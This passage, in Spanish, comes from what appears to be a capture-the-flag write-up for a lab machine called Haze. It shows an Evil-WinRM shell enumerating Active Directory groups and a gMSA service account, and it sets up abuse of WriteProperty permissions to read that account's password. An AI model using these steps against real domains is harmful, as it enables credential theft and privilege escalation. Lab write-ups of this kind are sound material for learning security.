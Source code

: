 ~~~ bash
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
HAZE\gMSA_Managers                          Group            S-1-5-21-323145914-28650650-2368316563-1107 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
~~~

Podemos listar las cuentas `gMSA` con el siguiente comando

> Cuenta de Servicio Administrada de Grupo, es un tipo de cuenta de dominio que facilita la administración de servicios que se ejecutan en múltiples servidores
{: .notice--info}

~~~ bash
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ADServiceAccount -Filter * 


DistinguishedName : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Enabled           : True
Name              : Haze-IT-Backup
ObjectClass       : msDS-GroupManagedServiceAccount
ObjectGUID        : 66f8d593-2f0b-4a56-95b4-01b326c7a780
SamAccountName    : Haze-IT-Backup$
SID               : S-1-5-21-323145914-28650650-2368316563-1111
UserPrincipalName :
~~~


## Abusing WriteProperty Permissions to Read `gMSA` Password

Como el usuario actual, no disponemos de los permisos suficientes para obtener las credenciales `gMSA` 

~~~ bash
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ADServiceAccount Haze-IT-Backup$ -Properties * | Select PrincipalsAllowedToRetrieveManagedPassword

PrincipalsAllowedToRetrieveManagedPassword
------------------------------------------
{CN=Domain Admins,CN=Users,DC=haze,DC=htb}
~~~

Haremos una enumeración de los permisos sobre esta cuenta `gMSA` con [PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1), aunque puedes utilizar otras herramientas como `bloodyAD` o comandos nativos como `dsacls`
